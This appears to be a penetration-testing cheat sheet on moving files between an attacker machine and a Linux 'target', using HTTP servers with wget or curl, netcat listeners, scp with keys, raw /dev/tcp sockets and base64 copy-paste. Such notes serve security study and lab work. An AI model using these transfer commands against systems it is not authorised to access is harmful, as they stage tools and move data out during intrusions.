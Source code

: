 ```yaml
---
title: "File Transfer (Linux To Linux)"
date: 2024-6-26
tags: ["scp", "Http File Transfer", "File Transfer", "nc"]
---
```


{{< tab set1 tab1 >}}HTTP{{< /tab >}}
{{< tab set1 tab2 >}}nc{{< /tab >}}
{{< tab set1 tab3 >}}scp{{< /tab >}}
{{< tab set1 tab4 >}}PIPE{{< /tab >}}
{{< tab set1 tab5 >}}Base64{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Start a local HTTP server
python3 -m http.server <LOCAL_PORT>
```

```console
# In target Linux machine
wget <LOCAL_IP>:<LOCAL_PORT>/<FILE>
```

```console
# In target Linux machine
curl <LOCAL_IP>:<LOCAL_PORT>/<FILE> -o <REMOTE_DEST_PATH>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# In our local Linux machine
nc -lvnp <LOCAL_PORT> < <FILE>
```

```console
# In target Linux machine
nc -w3 <LOCAL_IP> <LOCAL_PORT> > <FILE>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

#### Remote to Local

```console
# With password
scp <USER>@<TARGET>:<REMOTE_FILE_PATH> <LOCAL_DEST_PATH>
```

```console
# With id_rsa
scp -i id_rsa <USER>@<TARGET>:<REMOTE_FILE_PATH> <LOCAL_DEST_PATH>
```

#### Local to Remote

```console
# With password
scp <LOCAL_FILE_PATH> <USER>@<TARGET>:<REMOTE_DEST_PATH>
```

```console
# With id_rsa
scp -i id_rsa <LOCAL_FILE_PATH> <USER>@<TARGET>:<REMOTE_DEST_PATH>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

#### Local to Remote

```console
# In our local Linux machine
cat <FILE> | nc -lnvp <LOCAL_PORT>
```

```console
# In target Linux machine
exec 3<>/dev/tcp/<LOCAL_IP>/<LOCAL_PORT>
```

```console
# Ctrl+C to interrupt after some time
cat <&3 > <FILE>
```

```console
# Check
md5sum <FILE>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

#### Small binary

```console
# Base64 encode binary
cat <FILE> | base64 -w0
```

```console
# Copy and paste the base64 encoded binary
echo -n '<BASE64_FILE>' | base64 -d > <FILE>
```

<small>*Note: For restricted environment*</small>

{{< /tabcontent >}}
